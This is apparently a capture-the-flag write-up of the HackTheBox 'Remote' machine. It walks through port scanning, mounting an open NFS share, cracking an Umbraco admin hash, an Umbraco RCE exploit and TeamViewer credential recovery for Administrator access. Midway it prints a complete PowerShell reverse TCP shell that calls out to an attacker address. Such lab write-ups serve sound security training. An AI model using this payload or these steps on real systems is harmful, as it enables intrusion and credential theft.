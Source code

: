 ```yaml
---
title: HackTheBox-Remote
author: a3nk17
date: 2020-09-06
excerpt: "Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator."
thumbnail: /assets/img/posts/remote/info.png
categories: [HackTheBox, Retired]
tags: [nfs, umbraco, metasploits, efs]
---
```


![info](/assets/img/posts/remote/info.png)


Remote is a `beginner's` box running a vulnerable version of the `Umbraco CMS` which can be exploited after we find the credentials from an `exposed` share. After landing a reverse shell, we find that the machine has `TeamViewer` installed and we can recover the password with `Metasploit` then log in as `Administrator.`

## Summary

- Find open `NFS` share and locate `Umbraco credential`s inside the SDF file
- Use `Umbraco exploit` with the admin credentials to get a shell
- Find `TeamViewer's` credentials using Metasploit
- Log in as `administrator` with the password from TeamViewer

## Portscan

```bash
root@kali:~/htb/remote# nmap -sC -sV -p- 10.10.10.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-21 19:41 EDT
Nmap scan report for remote.htb (10.10.10.180)
Host is up (0.063s latency).
Not shown: 65518 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
[...]
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
[...]
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Using `crackmapexec`, we can identity the `OS` and the domain name.

```bash
root@kali:~/htb/remote# cme smb 10.10.10.180
SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
```

## Unsuccessful recon

FTP site allows `anonymous` connections but doesn't contain anything
`Null` sessions are `not allowed` on the box (can't enumerate users or shares)

## Website

The site is just some `company's website` and doesn't have anything interesting.

![](/assets/img/posts/remote/webpage.png)

We can see from the various left around the page and `html source` code that it's running the `Umbraco CMS`.

![](/assets/img/posts/remote/umbraco.png)

We can access the login page at `http://remote.htb/umbraco/` but we don't have any credentials yet.

![](/assets/img/posts/remote/adminpage.png)

## NFS mount

Using `showmount` we can check which NFS shares are accessible. Here we can see that `site_backups` is accessible by anyone.

```bash
root@kali:~# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

We can mount the NFS share to our `/mnt` directory and examine the files contained within.

```bash
root@kali:~# mount -t nfs 10.10.10.180:site_backups /mnt
root@kali:~# ls -l /mnt
total 115
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------ 2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
drwx------ 2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------ 1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

## Locating the umbraco admin password

I expected the password to be inside `Web.config` or some other plaintext configuration file but I did not find any credentials there. However when I looked at the `Umbraco.sdf` file in the `/mnt/App_Data` folder I saw that it contains some hashed passwords.

![](/assets/img/posts/remote/sdf.png)

The administrator's SHA-1 hash looks interesting: `b8be16afba8c314ad33d812f22a04991b90e2aaa`

It's easily cracked with john: `baconandcheese`

![](/assets/img/posts/remote/bacon.png)

Now we can log in to the `Umbraco page`:

![](/assets/img/posts/remote/umbracoadmin.png)

## Getting a shell with umbraco exploit

A `quick` search on Exploit-DB shows there's an `authenticated exploi`t for Umbraco version `7.12.4`, which is the exact version running on the box.

![](/assets/img/posts/remote/searchsploit.png)

![](/assets/img/posts/remote/version.png)

Here's the modified `exploit` with the proper credentials and the payload using `powershell.exe` to reach out to our python webserver and download a `powershell payload`.

![](/assets/img/posts/remote/payload1.png)

The `payload` is a standard Nishang reverse` TCP shell`:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

After using the `expoit`, we can get a shell.

![](/assets/img/posts/remote/user.png)

## Privesc Excalation

I noticed that the `TeamViewer` service is running on the server.

![](/assets/img/posts/remote/teamviewer_directory.png)

![](/assets/img/posts/remote/teamviewer_service.png)

We can find the `TeamViewer credentials` by using the Metasploit module.

![](/assets/img/posts/remote/teamviewer.png)

Then we can log in to the box as `administrator using WinRM`.

![](/assets/img/posts/remote/root.png)

Finally PWNED
==============

![](/assets/img/posts/remote/pwn.png)
